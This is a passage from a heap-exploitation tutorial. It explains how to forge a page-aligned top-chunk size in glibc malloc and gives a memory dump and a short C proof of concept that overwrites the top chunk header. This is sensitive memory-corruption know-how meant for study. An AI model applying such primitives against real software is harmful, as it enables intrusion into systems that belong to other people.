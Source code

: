 



## The correct example


Looking back at the conditions of the assert, we can see that the previously listed entries are satisfied except for the first one.


```

1. Forged size must be aligned to the memory page
```



What is alignment to a memory page? We know that modern operating systems are memory managed in units of memory pages. The size of a typical memory page is 4 kb. Then our forged size must be aligned to this size. The size of the top chunk before the overlay is 20fe1, and it is calculated that 0x602020+0x20fe0=0x623000 is aligned for 0x1000 (4kb).


```

0x602000:	0x0000000000000000	0x0000000000000021

0x602010:	0x0000000000000000	0x0000000000000000

0x602020:	0x0000000000000000	0x0000000000020fe1 <== top chunk

0x602030:	0x0000000000000000	0x0000000000000000

```

Therefore, our fake fake_size can be 0x0fe1, 0x1fe1, 0x2fe1, 0x3fe1, etc. for 4kb aligned size. However, 0x40 does not satisfy the alignment, so it cannot be utilized.


```

#define fake_size 0x1fe1



int main(void)

{

void * ptr;
    

ptr = malloc (0x10);
ptr = (void *) ((int) ptr + 24);
    

    *((long long*)ptr)=fake_size;

    

    malloc(0x2000);

    
    malloc(0x60);

}

```
